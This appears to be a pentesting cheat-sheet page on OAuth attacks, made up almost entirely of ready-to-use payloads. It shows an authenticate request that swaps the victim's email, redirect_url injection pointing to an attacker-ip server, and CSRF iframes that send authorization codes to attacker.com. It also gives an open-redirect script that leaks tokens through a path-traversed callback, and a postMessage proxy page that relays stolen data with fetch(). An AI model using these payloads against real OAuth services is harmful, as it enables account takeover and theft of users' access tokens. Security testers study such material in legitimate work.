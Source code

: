 ```yaml
---
title: OAuth Attack
description: 
tags:
    - Web
refs:
date: 2022-12-01
draft: false
---
```


## Change User Info

```json
POST /authenticate HTTP/1.1
...

{
    "email":"victim@example.com",
    "username":"attacker",
    "token":"b7Gl7Xoy..."
}
```

<br />

## Steal Tokens

1. **Open Web Server in Your Local Machine**

    ```sh
    python3 -m http.server 8000
    ```

2. **Inject Your Local URL to the Redirect URL**

    Access to the URL below.

    <div data-pagefind-ignore>

    ```sh
    https://vulnerable.com/oauth?redirect_url=http://<attacker-ip>:8000/login&response_type=token&scope=all
    ```

    </div>

<br />

## CSRF

1. **Steal Code**

    <div data-pagefind-ignore>

    ```html
    <iframe src="https://vulnerable.com/oauth-linking?code=kZ7bfFa..."></iframe>
    ```

    </div>

2. **Hijack redirect_url**

    <div data-pagefind-ignore>

    ```html
    <iframe src="https://vulnerable.com/auth?client_id=ysdj...&redirect_uri=https://attacker.com&response_type=code&scope=openid%20profile%20email">
    </iframe>
    ```

    </div>

3. **Open Redirect**

    <div data-pagefind-ignore>

    ```html
    <script>
        if (!document.location.hash) {
            window.location = 'https://vulnerable.com/auth?client_id=7Fdx8a...&redirect_uri=https://vulnerable.com/oauth-callback/../post/next?path=https://attacker.com/exploit/&response_type=token&nonce=398...&scope=openid%20profile%20email'
        } else {
            window.location = '/?'+document.location.hash.substr(1)
        }
    </script>
    ```

    </div>

4. **Proxy Page (postMessage)**

    <div data-pagefind-ignore>

    ```html
    <iframe src="https://vulnerable.com/auth?client_id=iknf...&redirect_uri=https://vulnerable.com/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-118...&scope=openid%20profile%20email"></iframe>
    <script>
        window.addEventListener('message', e => {
            fetch("/" + encodeURIComponent(e.data.data));
        }, false);
    </script>
    ```

    </div>
